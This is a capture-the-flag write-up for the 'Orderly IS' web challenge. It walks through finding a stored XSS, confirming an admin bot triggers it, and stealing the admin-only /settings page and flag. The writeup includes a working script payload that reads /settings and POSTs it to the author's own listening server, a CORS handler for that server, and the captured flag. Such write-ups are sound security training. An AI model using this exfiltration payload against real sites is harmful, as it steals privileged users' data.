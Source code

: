 # Orderly IS

Hi, packet inspector,

do you want to order something? Use our Orderly information system, it is intuitive, fast, reliable and secure! At least
that's what we claim in the TV ad. In last few hours it began to act weirdly, but its administrator is on vacation away
from civilization (and connectivity).

You will have to break into the [Orderly information system](http://orderly.mysterious-delivery.tcc:23000/) and check
its configuration.

May the Packet be with you!

---

I enjoyed this challenge. This is the web

![](portal.png)

We can post any data and the data is rendered back. I tried a few payload and
discovered [XSS vulnerability](https://portswigger.net/web-security/cross-site-scripting).

PoC:

```
<script>alert(1)</script>
```

In the meantime, I ran `nmap` and `dirb`. The latter discovered an interesting endpoint:

```
$ dirb http://orderly.mysterious-delivery.tcc:23000/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Tue Oct 25 20:21:24 2022
URL_BASE: http://orderly.mysterious-delivery.tcc:23000/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://orderly.mysterious-delivery.tcc:23000/ ----
==> DIRECTORY: http://orderly.mysterious-delivery.tcc:23000/javascript/
+ http://orderly.mysterious-delivery.tcc:23000/login (CODE:200|SIZE:1846)
+ http://orderly.mysterious-delivery.tcc:23000/logout (CODE:302|SIZE:199)
+ http://orderly.mysterious-delivery.tcc:23000/server-status (CODE:403|SIZE:299)
+ http://orderly.mysterious-delivery.tcc:23000/settings (CODE:302|SIZE:199)

---- Entering directory: http://orderly.mysterious-delivery.tcc:23000/javascript/ ----
==> DIRECTORY: http://orderly.mysterious-delivery.tcc:23000/javascript/jquery/

---- Entering directory: http://orderly.mysterious-delivery.tcc:23000/javascript/jquery/ ----
+ http://orderly.mysterious-delivery.tcc:23000/javascript/jquery/jquery (CODE:200|SIZE:287600)
```

This is interesting: `+ http://orderly.mysterious-delivery.tcc:23000/settings (CODE:302|SIZE:199)`

I have already seen a bit similar challenge so the next logical step was to verify that XSS payload is triggered
by the "admin" (a robot). Luckily, after solving [XML Prettifier](../02-xml-prettifier/README.md), I already knew I can use
my computer to hosts payloads.

The second PoC (don't forget about the firewall):

1. Get your VPN IP (`10.200.0.11`)
2. Configure/disable firewall
3. Run HTTP server on `10.200.0.11` (I'm using Python `http.server`)

Payload:

```
<img src="http://10.200.0.11:8000/test"/>
```

HTTP server log:

```
::ffff:10.200.0.11 - - [25/Oct/2022 20:27:05] code 404, message File not found
::ffff:10.200.0.11 - - [25/Oct/2022 20:27:05] "GET /test HTTP/1.1" 404 -
::ffff:10.99.0.5 - - [25/Oct/2022 20:27:05] code 404, message File not found
::ffff:10.99.0.5 - - [25/Oct/2022 20:27:05] "GET /test HTTP/1.1" 404 -
```

Bingo, there's hit from `10.99.0.5`!

Now, let's make a real exploit. My first idea was to steel the session cookie and use it to impersonate the admin but
the cookie is `httpOnly` so it wouldn't work.

The right idea is also quite simple: First, send HTTP request to read `/settings`, then send post the response of the first
request back to my localhost:

Also, don't forget about [CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS). To make it work, I added
the following handler for `OPTIONS` method:

```python
def do_OPTIONS(self):
    self.send_response(HTTPStatus.OK)
    self.send_header("Access-Control-Allow-Origin", "*")
    self.send_header("Access-Control-Allow-Headers", "*")
    self.end_headers()
```

Those HTTP headers make CORS possible.

Run my customized [HTTP server](../../../../src-python/catch22/OrderlyIS/http-server.py) and send the exploit:

```html

<script>
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "/settings", false);
    xhr.send(null);
    var response = xhr.responseText;

    var xhr = new XMLHttpRequest();
    xhr.open("POST", "http://10.200.0.11:8000/", false);
    xhr.send(JSON.stringify({
        response
    }));
</script>
```

The POST request with flag is indeed logged:

```
POST /

Headers:
Host: 10.200.0.11:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.99.0.131:23000/
Content-Type: text/plain;charset=UTF-8
Content-Length: 1639
Origin: http://10.99.0.131:23000
Connection: keep-alive

Body:
{"response":"\n\n<!doctype html>\n<html lang=\"en\">\n  \n<head>\n\t<meta charset=\"utf-8\">\n\t<meta name=\"viewport\" content=\"width=device-width, initial-scale=1, shrink-to-fit=no\">\n\t<link rel=\"stylesheet\" href=\"/static/bootstrap.min.css\">\n\t<title>Settings (adminuser)</title>\n\n\t<link rel=\"stylesheet\" href=\"/static/style.css\">\n</head>\n\n<body>\n\t<nav class=\"navbar navbar-expand navbar-dark bg-dark fixed-top py-0\">\n\t\t<div class=\"container\">\n\t\t\t<a class=\"navbar-brand\" href=\"/\">Orderly</a>\n\t\t\t<button class=\"navbar-toggler\" type=\"button\" data-toggle=\"collapse\" data-target=\"#navbarResponsive\" aria-controls=\"navbarResponsive\" aria-expanded=\"false\" aria-label=\"Toggle navigation\"><span class=\"navbar-toggler-icon\"></span></button>\n\t\t\t<div class=\"collapse navbar-collapse\" id=\"navbarResponsive\">\n\t\t\t\t<ul class=\"navbar-nav ml-auto\">\n\t\t\t\t\t<li class=\"nav-item\"><a class=\"nav-link\" href=\"/order/add\">Add</a></li>\n\t\t\t\t\t<!-- begin only admins -->\n\t\t\t\t\n\t\t\t\t\t<!-- end only admins -->\n\t\t\t\t\n\t\t\t\t\t<li class=\"nav-item\"><a class=\"nav-link\" href=\"/order/process\">Process</a></li>\n\t\t\t\t\t<li class=\"nav-item\"><a class=\"nav-link\" href=\"/logout\">Logout</a></li>\n\t\t\t\t\n\t\t\t\t</ul>\n\t\t\t</div>\n\t\t</div>\n\t</nav>\n\n        <div class=\"container\">\n\t\t<div>\n\t\t\n\t\t\n\t\t\n\t\t</div>\n\n\t\t\n<h1>Settings</h1>\n<span id=\"flag\">FLAG{9QVE-0miw-qnwm-ER9m}\n</span>\n\n        </div>\n\n\t<script src=\"/static/jquery.min.js\"></script>\n\t<script src=\"/static/bootstrap.min.js\"></script>\n</body>\n\n</html>"}

10.99.0.3 - - [25/Oct/2022 20:42:34] "POST / HTTP/1.1" 200 -

```

For convenience, here is the copied out source for [Settings page](settings.html).

The flag is `FLAG{9QVE-0miw-qnwm-ER9m}`